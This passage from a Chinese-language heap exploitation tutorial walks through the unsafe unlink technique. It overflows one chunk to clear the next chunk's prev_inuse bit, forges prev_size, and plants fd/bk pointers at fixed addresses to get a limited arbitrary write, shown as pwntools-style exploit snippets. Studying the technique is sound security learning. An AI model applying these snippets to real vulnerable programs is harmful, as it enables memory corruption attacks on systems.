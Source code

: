 那么我们一步一步来，首先申请 a、b 两个 chunk

编辑 chunk_a 的数据，把 b 的 prev_inuse 位清 0

```
a = malloc(0x88)
b = malloc(0x88)

edit(a,b'a'*0x88+p64(0x90))

```

可以看到这时 a 的最后一个字已经属于 b 了

![](https://static.hack1s.fun/images/2021/03/29/image-20210329161824457.png)

下面把`prev_size`这个字段也伪造了，只需要修改刚才的`edit`那句

```
edit(a,b'a'*0x80+p64(0x90)*2)

```

![](https://static.hack1s.fun/images/2021/03/29/image-20210329162148950.png)

接下来我们需要填入两个指针，修改`chunk_a`的 fd 和 bk 两个字段；

在 unlink 的时候实际上是

```
this.fd->bk = this.bk;
this.bk->fd = this.fd;

```

这样两个写入操作，如果我们想要用第一个语句来写

那么`fd+0x18`是最终写入的地址，`bk`是写入的内容；

我们先试着直接利用这个写入堆中的数据

由于测试的时候都关闭了 ASLR，直接是用的固定的地址

我们输入的 payload 直接就拿这个固定的地址了

```
edit(chunk_A, p64(0x555555757090)+p64(0x5555557570b0)+b"a"*0x70+2*p64(0x90))
free(chunk_B)

```

![](https://static.hack1s.fun/images/2021/03/29/image-20210329163725241.png)

执行完毕之后，用 vis 可以看到 A、B 一起都被 free 掉了

并且可以看到我们输入的两个值都写到内存里了，`fd+0x18`写入了`70b0`，`bk+0x10`写入了`7090`

说明确实是可以写的；

这可以说是一个有限制的任意地址写；

